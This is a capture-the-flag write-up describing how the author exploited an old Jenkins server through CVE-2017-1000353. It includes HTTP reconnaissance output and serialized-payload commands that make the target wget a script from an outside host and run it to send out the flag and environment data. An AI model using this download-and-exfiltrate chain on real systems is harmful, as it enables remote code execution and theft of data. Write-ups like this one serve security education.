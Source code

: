 # Country(400):  Serbia
----------
Description:  Get me the flag!

http://52.9.13.75:8080
----------
Hint:  How to get in should be known, but good luck getting out.
----------
Attachments:  []

~!|----------|!~

Ok lets see if we can hit this ip address with curl

```
/src/ctf/Serbia(master*) # curl -vv http://52.9.13.75:8080                                                                                                                                                                  root@3614dc210c9a
* Rebuilt URL to: http://52.9.13.75:8080/
*   Trying 52.9.13.75...
* TCP_NODELAY set
* Connected to 52.9.13.75 (52.9.13.75) port 8080 (#0)
> GET / HTTP/1.1
> Host: 52.9.13.75:8080
> User-Agent: curl/7.61.0
> Accept: */*
>
< HTTP/1.1 403 Forbidden
< Date: Sun, 21 Oct 2018 00:23:44 GMT
< X-Content-Type-Options: nosniff
< Set-Cookie: JSESSIONID.d7f7174f=1xse438rpuapd2jg76d4abbnp;Path=/;HttpOnly
< Expires: Thu, 01 Jan 1970 00:00:00 GMT
< Content-Type: text/html;charset=UTF-8
< X-Hudson: 1.395
< X-Jenkins: 2.46.1
< X-Jenkins-Session: 99540f0f
< X-You-Are-Authenticated-As: anonymous
< X-You-Are-In-Group-Disabled: JENKINS-39402: use -Dhudson.security.AccessDeniedException2.REPORT_GROUP_HEADERS=true or use /whoAmI to diagnose
< X-Required-Permission: hudson.model.Hudson.Read
< X-Permission-Implied-By: hudson.security.Permission.GenericRead
< X-Permission-Implied-By: hudson.model.Hudson.Administer
< Content-Length: 793
< Server: Jetty(9.2.z-SNAPSHOT)
<
<html><head><meta http-equiv='refresh' content='1;url=/login?from=%2F'/><script>window.location.replace('/login?from=%2F');</script></head><body style='background-color:white; color:white;'>


Authentication required
<!--
You are authenticated as: anonymous
Groups that you are in:

Permission you need to have (but didn't): hudson.model.Hudson.Read
 ... which is implied by: hudson.security.Permission.GenericRead
 ... which is implied by: hudson.model.Hudson.Administer
-->

* Connection #0 to host 52.9.13.75 left intact
</body></html>
```

Cool.. basic auth

lookk like it might a hudson server. its running an odler version of jetty


It looks like there is a cve for directory traversal.
https://www.exploit-db.com/exploits/36318/


so it seems like the security is enabled on this jenkins server
and that exploit is bullshit and not useful.


On another hand i noticed that we have  a new header when i try to go to the 
login page of this jenkins instance, which could help me out with getting the file out, or getting me to it.
https://wiki.jenkins.io/display/JENKINS/Instance+Identity

```
>
< HTTP/1.1 200 OK
< Date: Sun, 21 Oct 2018 00:41:06 GMT
< X-Content-Type-Options: nosniff
< Expires: Thu, 01 Jan 1970 00:00:00 GMT
< Cache-Control: no-cache,no-store,must-revalidate
< X-Hudson-Theme: default
< Content-Type: text/html;charset=UTF-8
< Set-Cookie: JSESSIONID.d7f7174f=1swld2f2qf5td506ll3ztwglc;Path=/;HttpOnly
< X-Hudson: 1.395
< X-Jenkins: 2.46.1
< X-Jenkins-Session: 99540f0f
< X-Frame-Options: sameorigin
< X-Instance-Identity: MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAmsOQR+hDUxpNRYdGYMvK1MWrgpl0M0Pb/v+ug0CGE5rdDYAwN0S492d2WIlHVMOQ82kIcUfWwgJgW/51twPA2B5i74BWo4s04OsJNz86nQgNVyOB0LL9Pn4Jigys/CIatJxALPEX411ZtInup5pM/fz0Q9OLNdYbMfiYaGk6E/92LPMpdxZKkf5M5zi012LvO/0sgEGrnu8IW0GOWiXOyqEVZbamwbT4JeL5S0MqO+K9CyzI0+GWIOLyjOEfPMy0tBiI3OS6B+ygrXYkRuSQN5mKDU2vpjSElBgcBKKwIagtYos+wF+ecUQ1Upnjsw9RgqwlwGe3yaFHHg0flJ2X1QIDAQAB
< X-SSH-Endpoint: 52.9.13.75:38279
< Content-Length: 5875
< Server: Jetty(9.2.z-SNAPSHOT)
<
```


Now this remote code execution is juicy if it works, its a remote execution vulnerability.

https://www.cvedetails.com/cve/CVE-2017-1000353/

forget it, that went no where, now this guy is promising because it might just work with this version

https://github.com/nixawk/labs/blob/master/CVE-2017-1000353/exploit.py

so what im actually going to do for this challenge, is craft
such a payload so that it curls a publicly accessible webserver
with the contents of the /etc/flag.txt

upon installing locally the same version of jenkins i was greetedd with so many different vulnerabilities.


the command to execute


so it turns out that i needed to exploit this remote command thing, to download python script into the remote server, which will dump
some env stuff(and hopefully the flag) to a remote url.

anywhoo

```
java -jar payload.jar get-dumper.ser "wget -O /tmp/dumper.py http://djmittens.github.io/dumper.py"

```

```
java -jar payload.jar exec-dumper.ser "python /tmp/dumper.py"
```

then i just simply ran the modified exploit.
and voila.

```
etc=/tmp/flag.txt
/usr/lib/python2.7/dist-packages/bzrlib/help_topics/en&flag=CK{45a1283751ac86627567b1c3499829f25174dd5c}
&etc-err=find: `/root': Permission deni
```

what a turd this challenge was :(
    especially cause alex quasch got there first.